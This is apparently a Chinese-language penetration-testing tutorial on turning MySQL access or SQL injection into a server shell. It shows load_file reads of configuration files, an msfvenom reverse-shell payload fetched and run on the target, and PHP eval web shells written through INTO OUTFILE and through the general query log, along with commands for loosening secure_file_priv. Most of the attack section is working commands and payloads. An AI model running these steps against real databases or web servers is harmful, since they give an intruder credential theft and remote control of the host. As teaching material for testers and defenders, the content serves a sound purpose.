










Mysql注入漏洞的相关利用
1. load_file命令可用
通过sql语句中的load_file函数可读取任意文件的内容
可以爆破
mysql配置文件路径并读取账号密码；

可以读取一些代码文件做代码审计；
可以获取目标web服务器的各个详细的配置信息并根据版本找脆弱点；
若获取到MYSQL的账号密码，则有以下获取shell的方法：
2. system命令可用
以下方式默认都已知
mysql服务器账号密码，不然很多配置都是默认关闭，很难利用。当然，如果目标服务器已满足利用条件更好。
0x01. 直接getshell
Mysql 5.x新增命令system可直接执行系统命令，故可直接连接mysql命令终端输入system bash即可在当前终端获取一个shell。

0x02. Metasploit 反弹shell
利用Metasploit 生成对应的后门文件，再利用python开启http服务，令目标文件下载木马并执行；
1 | msfvenom -p linux/x64/shell_reverse_tcp lhost=192.168.88.10 lport=4444 -f elf -o test |
一开始是想直接整行执行python代码，但执行出错（在终端直接这样执行没问题）

发现system命令可支持交互式的python命令输入，便一行一行执行

给可执行文件修改权限并执行该文件，Metasploit就能获得一个session

同理同样方法可使目标服务器上线CobaltStrike。
0x03. 写文件getshell
想通过into outfile命令写一句话木马，必须具备以下几个前提条件：
- Mysql必须有对应权限，即查看变量
secure_file_priv的值：
- Mysql 5.5版本前，该变量值默认为空，可向任意路径写入文件；
- Mysql 5.5版本后，该变量值默认为NULL，即不允许写入文件，需要将其修改为空或对应的web路径；
- 知道WEB目录的绝对路径；
先查看secure_file_priv的值，一般都是NULL
1 | mysql> select @@secure_file_priv; |
本来想设置secure_file_priv变量为空，奈何该变量是可读变量，只能在my.cnf文件中修改变量值后重启mysql服务才可，条件属实有一点苛刻。
1 | mysql> set global secure_file_priv=''; |
找到my.cnf文件后，在对应的位置添加该变量值后，重启mysql即可
1 | [mysqld] |
secure_file_priv = ''设置失败，最后显示还是为NULL;secure_file_priv = ' '也设置失败，Mysql无法重启；
1 | root@a3f9b4b6cb6c:/var/www/html# service mysql restart |
重启完成后，进入mysql可以发现已经修改成功
1 | mysql> select @@secure_file_priv; |
尝试重新写出一句话木马文件
1 | mysql> select '<?php eval($_POST["pass"]);?>' into outfile '/var/www/html/shell2.php'; |
访问该文件，且执行phpinfo()成功；

0x04. 写日志getshell
日志记录默认是关闭状态
1 | mysql> SHOW VARIABLES LIKE '%general%'; |
我们可以使用命令将其开启并重新设置日志路径
1 | mysql> set global general_log = "ON"; |
💡注意：当
mysql没有权限在web目录下创建文件时，设置路径会失败；
设置完成后，可以在注入点查询时插入一句话，日志文件中便会有对应的代码写入；

也可以直接在mysql终端直接查询
1 | mysql> select "<?php eval($_GET['pass']);?>"; |
写入完成之后访问木马文件，发现系统会出现500错误

进入系统查看发现该日志文件没有执行权限
💡注意: 当
mysql写入的日志文件没有执行权限时，写入的一句话木马也就失效；
重新设置文件权限后，一句话木马正常运行，即getshell成功；
1 | chmod 775 shell.php |

总结：
其实现阶段通过sql注入拿shell的条件还是比较苛刻的，大多数都是获取后台管理员账号密码，进入后台管理寻找上传点或其他的漏洞点获得shell。如果目标服务器的后端支持多条语句执行也可以试试通过堆叠注入去达到进入mysql交互式终端差不多的效果。